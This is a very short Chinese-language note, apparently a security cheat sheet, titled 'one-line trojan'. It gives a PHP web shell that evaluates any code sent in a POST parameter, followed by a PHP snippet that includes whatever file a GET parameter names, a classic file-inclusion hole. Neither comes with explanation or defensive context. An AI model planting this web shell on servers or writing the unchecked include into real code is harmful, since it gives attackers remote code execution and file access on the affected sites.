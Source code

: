 # 714
[toc]
## 一句话木马

```php
<?php @eval($_POST["cmd"]); ?>
```
文件包含
```php
<?php 
$file = $_GET ["file"];
include $file;
?>
```
